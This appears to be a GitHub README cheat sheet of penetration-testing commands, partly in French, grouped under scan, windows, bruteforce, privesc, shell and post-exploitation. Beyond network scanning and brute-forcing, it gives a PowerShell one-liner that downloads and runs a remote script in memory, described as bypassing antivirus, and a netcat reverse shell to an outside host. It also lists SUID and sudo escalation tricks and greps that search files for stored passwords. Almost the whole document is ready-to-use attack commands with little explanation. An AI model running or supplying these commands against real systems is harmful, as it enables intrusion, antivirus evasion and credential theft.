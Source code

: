 # tools
few scripts and useful commands

# scan
<ul>
<li>netdiscover -r 192.168.10.130/24</li>
<li>nmap -A -sS 192.168.10.135</li>
<li>nikto -h http://192.168.10.135/site</li>
<li>wapiti http://192.168.10.134/site</li>
<li>wordpress : wpscan --url http://192.168.10.135/site</li>
</ul>

# windows
<p>run ps1 script in memory (bypass antivirus) :</p>
<ul>
<li>powershell IEX (New-Object Net.WebClient).DownloadString('http://10.133.127.172:85/test.ps1')</li>
</ul>

# bruteforce
<ul>
<li>hydra -l user -P wordlist.txt 192.168.10.130 ssh</li>
</ul>
<p>generate wordlist from a password with 2 missing characters :</p>
<ul>
<li>crunch 7 7 -t passwo^% >> wordlist.txt</li>
</ul>

# privesc

<ul>
<li>https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py</li>
<li>find / -perm -u=s -type f 2>/dev/null</li>
<li>find / -perm +6000 2> /dev/null</li>
<li>https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/</li>
<li> Get a better shell if msf payload is weak (ex: python/reverse_shell) : http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet </li>
<li> List rights : sudo -l </li>
<li> Example with /bin/ed : sudo /bin/ed => !/bin/bash => id </li>
<li>ps -ax</li>
</ul>

# shell

<p>LFI</p>
<ul>
<li>/bin/nc 192.168.91.1 1234 -e /bin/sh /bin</li>
<li> https://resources.infosecinstitute.com/local-file-inclusion-code-execution/#gref </li>
</ul>

# post-exploitation
<ul>
<li> grep -air --include=*.txt ou .json ou .sh password ou mot de passe </li>
<li> grep -air --include=*.txt "mot de passe" </li>
<li> grep -air --include=*pass* ""</li>
<li>https://matthew-brett.github.io/curious-git/reading_git_objects.html</li>
</ul>
